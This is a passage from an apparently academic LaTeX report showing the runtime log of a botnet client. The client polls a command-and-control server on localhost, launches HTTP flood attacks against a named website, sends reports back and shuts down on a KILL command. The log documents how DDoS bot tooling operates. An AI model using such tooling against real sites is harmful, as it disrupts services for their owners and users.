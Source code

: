 \begin{verbatim}
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/3) behind proxy none
08:37:08.395 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:08.396 [BotPool_Worker-6] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (1/1) behind proxy none
08:37:09.824 [BotPool_Worker-7] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (2/3) behind proxy none
08:37:10.734 [BotPool_Worker-8] INFO  execute - 
                 Launching HTTP FLOOD attack: 
                 GET http://www.micheleporretta.com (3/3) behind proxy none
08:37:11.404 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:15.414 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:18.420 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:22.427 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:25.437 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:29.444 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:33.450 [main] INFO run - 
                 Received command REPORT with params {}
                 from C&C at http://localhost:3000/command
08:37:33.451 [main] INFO executeCommand - 
                 Executing command REPORT with params {}
08:37:39.214 [main] INFO report - 
                 Sending report to C&C at http://localhost:3000/report...
08:37:44.182 [main] INFO report - 
                 Sending report to C&C at http://localhost:3000/report...
08:37:44.188 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:47.196 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:50.205 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:53.211 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:37:56.216 [main] INFO run - 
                 Waiting for polling from C&C at http://localhost:3000/command
08:38:00.225 [main] INFO run - 
                 Received command KILL with params {report=false}
                 from C&C at http://localhost:3000/command
08:38:00.226 [main] INFO executeCommand - 
                 Executing command KILL with params {report=false}
08:38:00.227 [main] INFO kill - Bot shut down
\end{verbatim}
\noindent\\
The following are commands-related events (recorded in \texttt{data/log/commands.log}):

